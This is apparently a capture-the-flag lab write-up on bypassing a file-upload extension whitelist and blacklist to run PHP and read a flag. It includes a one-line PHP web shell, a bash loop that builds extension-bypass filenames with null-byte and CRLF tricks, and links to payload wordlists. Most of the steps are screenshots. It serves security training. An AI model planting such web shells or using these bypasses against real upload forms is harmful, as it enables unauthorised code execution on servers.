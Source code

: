 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions.
Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

`Hint`: You may use either of the last two techniques. If one extension is blocked, try another one that can execute PHP code.

---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- PHP shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- Fuzzing extension whitelist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
(It could be useful to add common image extensions).
- Fuzzing extension list: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

We attempted to subbmit a simple php script with a test payload:
![image](https://github.com/user-attachments/assets/4b62872a-8a53-4aac-9036-b926dc29415f)
![image](https://github.com/user-attachments/assets/f7bb5a8e-dba6-40ea-a7fb-c57bbb2b6794)

We notice we have differente message responses depending either the response is from the whitelist or blacklist.

We attempted to subbmit a php script using `Double Extensions`:
![image](https://github.com/user-attachments/assets/8e7ab974-0a12-4f57-a81a-db475e750feb)

We attempted to subbmit a php script using a `Reverse Double Extension`:
![image](https://github.com/user-attachments/assets/5d3f324d-9e0e-4878-bd7a-287f780761c0)

We also attempted:
![image](https://github.com/user-attachments/assets/35526498-6f80-4f59-a5c0-771c6e74ef93)
![image](https://github.com/user-attachments/assets/95bad4f1-b219-43ba-a443-a6adee0fd057)
![image](https://github.com/user-attachments/assets/f69b6ed7-1468-47c2-bb00-77c6168d40d2)


We tried to submit a php script with null bytes:
![image](https://github.com/user-attachments/assets/977014b2-3f26-4001-a57b-dd64e0114667)

We perform a common extension fuzzing with `Burp Suite Intruder` in order to know the extensions whitelisted:
![image](https://github.com/user-attachments/assets/05fb203f-bed3-498d-a3b9-4ae4ef6b6489)
all of this extensios are not allowed.
![image](https://github.com/user-attachments/assets/933acd67-c3b5-4b8d-9f50-77387ddfb498)
We realized that we receive the response `Only images are allowed` when the server response using the whitelist and `Extension not allowed` if the server is using the blacklist.


We performed a extension fuzzing using `Burp Suite Intruder`:
![image](https://github.com/user-attachments/assets/e3d26584-e313-4a44-870c-54af813e562e)

![image](https://github.com/user-attachments/assets/78f9a8d2-ed7e-478d-a687-e36d024344b5)

Also we can create a custom wordlist with the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.png" >> wordlist.txt
        echo "shell$ext$char.png" >> wordlist.txt
        echo "shell.png$char$ext" >> wordlist.txt
        echo "shell.png$ext$char" >> wordlist.txt
    done
done
```
Then we perform a fuzzing using this list created:
![image](https://github.com/user-attachments/assets/30ece0ba-f8e2-4e18-b28c-143a0f3ed912)

![image](https://github.com/user-attachments/assets/644c8c1c-408e-469c-980c-1ea8f0fdbc5c)

We tried to get de file submitted by using `Intruder`:
![image](https://github.com/user-attachments/assets/4c7cb8da-31a8-4972-9e68-b2d9770b37e3)
![image](https://github.com/user-attachments/assets/ce8a7da6-cd4b-4bfb-b36c-c2194bb5ca4f)

Using repetear we submitted a simple php web shell:
![image](https://github.com/user-attachments/assets/d3a77070-151a-4839-836a-5230b96933d9)
![image](https://github.com/user-attachments/assets/412f206a-e218-47c5-9b56-e536aeb732ee)

We get the flag and solve the lab:
![image](https://github.com/user-attachments/assets/887787b8-5edc-4add-9a55-fcded8f777b3)















